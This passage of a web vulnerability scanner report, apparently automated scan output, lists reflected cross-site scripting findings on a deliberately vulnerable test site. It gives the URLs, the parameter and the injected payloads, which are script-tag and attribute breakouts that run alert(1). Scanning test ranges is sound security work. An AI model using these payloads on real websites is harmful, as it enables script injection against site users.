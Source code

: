 * URL: https://public-firing-range.appspot.com/reflected/parameter/js_singlequoted_string%3Fq=%2527%253Balert%25281%2529%253B%2527
  * Method: `GET`
  * Parameter: `q`
  * Attack: `';alert(1);'`
  * Evidence: `';alert(1);'`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/js_slashquoted_string%3Fq=%253C%252Fscript%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cscript%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</script><scrIpt>alert(1);</scRipt><script>`
  * Evidence: `</script><scrIpt>alert(1);</scRipt><script>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/json%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/noscript%3Fq=%253C%252Fnoscript%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Cnoscript%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</noscript><scrIpt>alert(1);</scRipt><noscript>`
  * Evidence: `</noscript><scrIpt>alert(1);</scRipt><noscript>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/style_attribute_value%3Fq=%2527%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `'><scrIpt>alert(1);</scRipt>`
  * Evidence: `'><scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/tagname%3Fq=%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `<scrIpt>alert(1);</scRipt>`
  * Evidence: `<scrIpt>alert(1);</scRipt>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/tagname%3Fq=tag+accesskey%253D%2527x%2527+onclick%253D%2527alert%25281%2529%2527+b
  * Method: `GET`
  * Parameter: `q`
  * Attack: `tag accesskey='x' onclick='alert(1)' b`
  * Evidence: `tag accesskey='x' onclick='alert(1)' b`
  * Other Info: `The accesskey attribute specifies a shortcut key to activate/focus an element. This attribute can trigger payloads for non-conventional or custom tags.`
* URL: https://public-firing-range.appspot.com/reflected/parameter/textarea%3Fq=%253C%252Ftextarea%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E%253Ctextarea%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `</textarea><scrIpt>alert(1);</scRipt><textarea>`
  * Evidence: `</textarea><scrIpt>alert(1);</scRipt><textarea>`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/parameter/textarea_attribute_value%3Fq=%2527%253E%253CscrIpt%253Ealert%25281%2529%253B%253C%252FscRipt%253E
  * Method: `GET`
  * Parameter: `q`
  * Attack: `'><scrIpt>alert(1);</scRipt>`
  * Evidence: `'><scrIpt>alert(1);</scRipt>`
  * Other Info: ``